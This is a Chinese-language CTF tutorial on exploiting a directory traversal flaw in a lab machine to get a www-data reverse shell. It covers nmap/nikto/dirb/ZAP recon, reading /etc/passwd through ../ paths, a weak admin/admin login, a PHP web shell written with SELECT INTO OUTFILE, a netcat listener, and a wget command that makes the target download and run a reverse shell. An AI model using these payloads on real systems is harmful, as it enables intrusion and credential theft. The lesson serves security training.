







# CTF夺旗赛：P12：目录遍历漏洞利用与权限获取 🚩

在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将通过利用此漏洞，最终获取目标主机的www-data用户权限，为后续的提权操作打下基础。

## 目录遍历漏洞概述

目录遍历漏洞，也称为路径遍历攻击。其核心目的是访问存储在Web根目录之外的文件和目录。攻击者通过操纵带有“点-斜线”（`../`）序列或其变体的文件路径变量，或使用绝对文件路径，可以访问文件系统上的任意文件和目录。这包括应用程序源代码、配置文件以及关键的系统文件。

**核心概念公式**：`http://target.com/vulnerable.php?file=../../../etc/passwd`

需要注意的是，系统级别的访问控制（例如在Windows操作系统上锁定或设置只读权限的文件）会限制对此类文件的访问。如果文件权限设置为不可读，则无法通过目录遍历漏洞查看其内容。

上一节我们介绍了目录遍历的基本概念，本节中我们来看看如何搭建和探测实验环境。

## 实验环境搭建

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.106`。
*   **靶机**：一台Linux系统，IP地址为 `192.168.1.104`。



我们的最终目标是获取靶机的root权限并读取flag值。所有后续操作都将围绕此目标展开。

## 信息收集与探测

在获得靶机IP地址后，首先需要对其进行信息探测，以了解其开放的服务和潜在的攻击面。



以下是信息探测的步骤：

1.  **扫描开放服务及版本**：使用Nmap的 `-sV` 参数进行服务版本探测。
    ```bash
    nmap -sV 192.168.1.104
    ```
2.  **全面信息探测**：使用Nmap的 `-A` 参数进行操作系统、服务版本等全面扫描。
    ```bash
    nmap -T4 -A -v 192.168.1.104
    ```
3.  **Web服务指纹识别**：如果发现开放了HTTP服务（如80端口），可以使用Nikto进行Web应用漏洞扫描。
    ```bash
    nikto -h http://192.168.1.104
    ```
4.  **Web目录枚举**：使用Dirb等工具对Web目录进行暴力枚举，寻找隐藏文件或敏感目录。
    ```bash
    dirb http://192.168.1.104
    ```

探测完成后，对结果进行分析。例如，发现开放了80端口的Apache服务，并且Dirb扫描到了一个名为 `/dbadmin` 的敏感目录，其中存在 `testDB.php` 文件，可能是一个数据库管理界面。

在收集了基本信息后，我们可以使用专门的漏洞扫描器进行更深层次的挖掘。

## 漏洞扫描与发现

我们使用OWASP ZAP作为Web漏洞扫描器对目标站点进行自动化扫描。

启动ZAP后，输入靶机地址 `http://192.168.1.104` 并开始攻击扫描。扫描器会自动爬取站点并测试已知漏洞。

扫描结束后，在警报（Alerts）面板中，我们发现了一个**目录遍历漏洞**（通常标记为红色高危）。详细信息显示，通过访问特定的URL参数，可以读取服务器上的 `/etc/passwd` 文件。

**漏洞利用代码示例**：
```
http://192.168.1.104/vulnerable.php?file=../../../../etc/passwd
```



在浏览器中访问此URL，成功返回了 `/etc/passwd` 文件的内容，证实了漏洞的存在。尝试将路径改为 `/etc/shadow` 却失败了，这是因为 `shadow` 文件通常对非root用户不可读。



发现了目录遍历漏洞后，我们接下来需要思考如何利用它来获取一个反向Shell。

## 漏洞利用：获取Web Shell

我们的利用思路是：首先找到一个可以上传或写入文件的地方，将Web Shell上传到服务器，然后通过目录遍历漏洞访问并执行这个Web Shell，从而在攻击机上获得一个反向Shell连接。

以下是具体的操作步骤：

1.  **寻找上传点**：之前发现的 `/dbadmin/testDB.php` 是一个数据库管理页面。尝试使用弱口令（如 admin/admin）登录成功。
2.  **准备Web Shell**：在Kali中，PHP反向Shell的常用位置是 `/usr/share/webshells/php/php-reverse-shell.php`。将其复制到桌面，并编辑文件中的 `$ip`（改为Kali的IP `192.168.1.106`）和 `$port`（例如 `4444`）。
    ```php
    // php-reverse-shell.php 中的关键配置行
    $ip = ‘192.168.1.106‘; // 攻击机IP
    $port = 4444; // 监听端口
    ```
3.  **通过数据库功能写入Shell**：在数据库管理界面中，尝试创建一个名为 `shell.php` 的数据库或数据表，并在某个文本字段中插入PHP代码。更常见的方法是，如果存在“SQL执行”或“文件导出”功能，可以尝试利用其将PHP代码写入Web目录。
    *   **思路**：构造一个查询，将PHP代码作为查询结果“导出”为 `.php` 文件。
    *   **示例SQL**（需根据实际情况调整）：
        ```sql
        SELECT “<?php system($_GET[‘cmd‘]); ?>“ INTO OUTFILE ‘/var/www/html/shell.php‘
        ```
    *   **注意**：此方法需要数据库用户拥有 `FILE` 权限，且知道Web目录的绝对路径。
4.  **启动HTTP服务与监听**：
    *   在Kali桌面目录启动一个简易HTTP服务器，用于托管我们编辑好的Web Shell文件。
        ```bash
        python3 -m http.server 8000
        ```
    *   在另一个终端启动Netcat监听器，等待反向Shell连接。
        ```bash
        nc -nlvp 4444
        ```
5.  **触发Web Shell**：
    *   如果通过数据库成功写入了Web Shell文件（例如 `shell.php`），则直接通过浏览器访问 `http://192.168.1.104/shell.php`。
    *   或者，如果写入的Shell代码在某个可通过目录遍历访问的文件中（例如日志文件、通过参数写入的缓存文件），则通过目录遍历的URL去访问它。
        ```
        http://192.168.1.104/vulnerable.php?file=../../../tmp/our_shell_code.txt
        ```
        假设 `our_shell_code.txt` 的内容是 `<?php system($_GET[‘c‘]);?>`，那么访问以下链接即可执行命令：
        ```
        http://192.168.1.104/vulnerable.php?file=../../../tmp/our_shell_code.txt&c=whoami
        ```
        利用此方法执行命令，让靶机从我们的HTTP服务器下载完整的Web Shell并执行：
        ```
        &c=wget http://192.168.1.106:8000/php-reverse-shell.php -O /tmp/r.php; php /tmp/r.php
        ```

成功执行后，Netcat监听端会收到来自靶机的反向Shell连接，此时我们获得的权限通常是Web服务运行的用户，例如 `www-data`。

## 总结与后续





本节课中我们一起学习了目录遍历漏洞的利用全过程：

1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标。
2.  **漏洞发现**：利用OWASP ZAP扫描并确认目录遍历漏洞。
3.  **漏洞利用**：结合弱口令登录后台，寻找文件写入点，上传或写入Web Shell代码。
4.  **获取初始立足点**：通过触发Web Shell，获得一个 `www-data` 用户权限的反向Shell。

目前我们获得了 `www-data` 用户的权限。这只是一个起点，下一节课我们将重点介绍如何从 `www-data` 权限提升到 `root` 权限，即**提权（Privilege Escalation）**。常见的提权方法包括利用系统内核漏洞、错误配置的SUID/GUID文件、定时任务（crontab）等。

此外，目录遍历漏洞本身也可以直接用于信息收集，例如读取 `/etc/passwd` 和 `/etc/shadow` 文件，然后使用John the Ripper等工具进行密码破解，可能获得更高权限用户的凭据，从而完成提权或远程登录。



这就是本节课关于目录遍历漏洞利用获取 `www-data` 权限的全部内容。